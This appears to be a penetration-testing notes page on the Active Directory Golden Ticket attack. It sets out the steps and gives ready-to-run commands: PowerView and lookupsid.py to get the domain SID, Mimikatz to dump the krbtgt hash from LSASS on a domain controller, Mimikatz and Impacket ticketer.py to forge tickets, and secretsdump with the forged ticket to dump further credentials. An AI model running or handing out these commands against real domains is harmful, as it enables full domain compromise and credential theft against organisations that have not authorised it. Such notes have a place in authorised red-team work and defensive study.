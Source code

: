 # Golden Ticket

#### Priv Required: <mark style="color:purple;">Domain Admin account</mark>

A **Golden Ticket attack** consist on the **creation** of a legitimate Ticket Granding Ticket (TGT) **impersonating any user** through the use of the NTLM hash of the Acrive Directory (AD) **krbtgt account**.\
This tenchnique is particularly advantageos because it enables access to any service or machine within the domain as the impersonated user. It's crucial to remember that the krbtgt account's credentials are never automatically updated.

#### Necessary Elements:

* **Domain SID**
* **NTLM hash** of **krbtgt account**

#### Methodology:

* Extract **Domain Admin** account's **NTML hash**
* Execute **Pass-the-Hash**
* Retrive **KRBTGT Account hash**
* **Forge** and use a Golden Ticket

## Get Domain Info

### SID

{% code title="From Windows" %}
```powershell
powershell -ep bypass
. .\PowerView.ps1

Get-DomainSID
```
{% endcode %}

{% code title="From Linux - Impacket" %}
```bash
cd /usr/share/doc/python3-impacket/examples/ # Kali location
lookupsid.py -hashes '$LMhash:$NThash' '$DOMAIN/$USER@$DOMAIN_CONTROLLER' 0
```
{% endcode %}

## Get Domain Admin Account

the first task is obtained a Domain Admin user account with elevated privilege into Domain Controller.

We can use Pass-the-Hash, crack password hash or find plain-text password.

{% content-ref url="../ad-lateral-movement/pass-the-hash.md" %}
[pass-the-hash.md](../ad-lateral-movement/pass-the-hash.md)
{% endcontent-ref %}

{% content-ref url="../ad-enumeration/password-sprayng.md" %}
[password-sprayng.md](../ad-enumeration/password-sprayng.md)
{% endcontent-ref %}

{% content-ref url="../ad-post-compromise-attacks/kerberoasting.md" %}
[kerberoasting.md](../ad-post-compromise-attacks/kerberoasting.md)
{% endcontent-ref %}



## Get krbtgt's NTLM hash

The second task is obtain the NTLM hash of the krbtgt account. These are the methods to obtain it:

### LSASS

```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computer $DC_NANE.local
```

<figure><img src="../../../.gitbook/assets/image (110).png" alt=""><figcaption></figcaption></figure>

### NT Directory Services (NTDS.dll)

...

### DCsync attack



To acquire the NTLM hash of the krbtgt account, various methods can be employed. It can be extracted from the Local Security Authority Subsystem (LSASS) process or the NT Directory Services (NTDS.dll) file located on any Domain controller (DC) within the domain.\
Furthermore, executing a DCsync attack is another strategy to obtain this NTLM hash, which can be performed using tools such as the "lsadump::dcsync" in Mimikatz or the secretsdump.py script by Impacket. It's important to unserscore that to undertake these operations, domain admin pribileges or a similar level of access is typically required.



## Forge Golden Ticket



{% code title="From Windows - Invoke-Mimikatz" overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:$DOMAIN.local /sid:$DOMAIN_SID /krbtgt:$NTLM_HASH_KRBTGT /id:500 /groups:512 /startoffset:0 /end:600 /renewmax:10080 /ptt"'
```
{% endcode %}

> id:**500** or id:**512** it's a default id of administrator user in windows



{% code title="From Linux - Impacket" overflow="wrap" %}
```bash
cd /usr/share/doc/python3-impacket/examples/
# Create the golden ticket (with an RC4 key, i.e. NT hash)
ticketer.py -nthash "$krbtgtNThash" -domain-sid "$domainSID" -domain "$DOMAIN" "$RANDOMUSER"

# Create the golden ticket (with an AES 128/256bits key)
ticketer.py -aesKey "$krbtgtAESkey" -domain-sid "$domainSID" -domain "$DOMAIN" "randomuser"

# Create the golden ticket (with an RC4 key, i.e. NT hash) with custom user/groups ids
ticketer.py -nthash "$krbtgtNThash" -domain-sid "$domainSID" -domain "$DOMAIN" -user-id "$USERID" -groups "$GROUPID1,$GROUPID2,..." "randomuser"
```
{% endcode %}



## Use Golden Ticket

### secretsdump.py

{% code overflow="wrap" %}
```bash
export KRB5CCNAME=$(pwd)/NAME.ccache

KRB5CCNAME="NAME.ccache" secretsdump -no-pass -k -dc-ip $DC_IP $DOMAIN.local/$NAME@$MACHINE.$DOMAIN.local
```
{% endcode %}



## GolenCopy

You encounter limitations with your golden tickets (DACLs, detection)? GoldenCopy retrieves all the information (ID, groups, etc) of a specific user in a neo4j database (bloodhound) and prepares the mimikatz/ticketer command to impersonate his permissions.

{% embed url="https://github.com/Dramelac/GoldenCopy" %}



## Resources

{% embed url="https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/golden" %}







